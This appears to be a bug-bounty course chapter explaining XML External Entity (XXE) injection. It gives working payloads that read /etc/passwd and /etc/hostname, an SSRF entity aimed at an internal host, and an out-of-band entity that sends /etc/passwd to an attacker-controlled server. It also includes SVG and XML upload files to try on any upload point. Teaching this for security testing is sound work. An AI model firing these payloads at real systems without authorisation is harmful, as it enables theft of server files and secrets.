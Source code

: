 # XXE

# What is it

XXE = XML eXternal Entities

XXE can occur when XML documents get parsed. We traditionally think of XXE vulnerabilities as uploading an XML file that includes an external entity, an example of this would be:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

We might be able to upload this file if we save it as .xml into an application that process XML files but what some hunters don't know is that some other file types consist of XML files. In this course we will cover two types of XXE attacks but can you think of any more after reading this?

# Types of XSS attacks

XXE can be abused to perform several types of attacks. It can even be chained into things like SSRF.

In this chapter we will mostly take a look at:

- XXE to retrieve files
- XXE to perform SSRF
- Blind XXE

## XXE To retrieve files

```jsx
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```

In this example we first define the document type and in there we define a new Entity called "XXE". This entity is made to execute a system call. This can be anything like ls, a reverse shell or in this case a file inclusion. It will grab the /etc/passwd file.

```jsx
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Next we will display that entity xxe into every possible field of our XML file. **It's very important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.**

## XXE Into SSRF

```jsx
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"http://intranet.cheeseshop.com"> ]>
```

In our previous example we made a SYSTEM call to include a file, in this example we make the same SYSTEM call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside. To learn more about SSRF check out that chapter.

## Blind XXE

The majority of XXE vulnerabilities in the wild will be blind XXE attacks. To detect these we can use an out of band webserver that we host ourselves and make the target do a callback to our server using the same technique we used previously in XXE into SSRF.

```jsx
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
]>
```

If we detect blind XXE, we can exfiltrate data via OAST

```jsx
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Our first entity will grab the data file /etc/passwd and our second entity will make a callback to our server with the contents of the /etc/passwd file in a get parameter.

# Attack strategy

Our attack strategy will consist of trying to upload a file that will test for XXE on every entry point where an XML is processed. This can be in XML format bit also in SVG or DOCX/XLSX files. Our attack vectors will focus on trying to the /etc/hostname file. There are many other things we can do with XXE for example when we are testing on a windows server, we need to make sure to include a windows file instead of the /etc/hostname file.

Save the following files on your pc:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/hostname" >]>
<foo>&xxe;</foo>
```

For docx/xlsx payload please check out 

[XML External Entity Injection (XXE) in OpenCats Applicant Tracking System - Dodd Security](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

As you can see, we are fetching the file /ect/hostname and putting it in an "entity" with the name "xxe":

```xml
<!ENTITY xxe SYSTEM  "file:///etc/hostname" >]>
```

Later on we call that entity in the XML document to display it

```xml
<foo>&xxe;</foo>
<text font-size="16" x="0" y="16">&xxe;</text>
```

Now that we created these files, try to upload them everywhere you can such as:

- profile pictures (.svg)
- banners (.svg)
- photo albums (.svg)
- XML imports (.xml)
- DOCX/XLSX imports (.docx/.xlsx)
- SOAP requests
- ...

The behaviour we are looking for is that the system will grab the /etc/hostname and will print the value in the location that we expect our process document would be. 

As for Blind XXE, we need to make sure to test with an attack vector that makes a callback to our own webserver.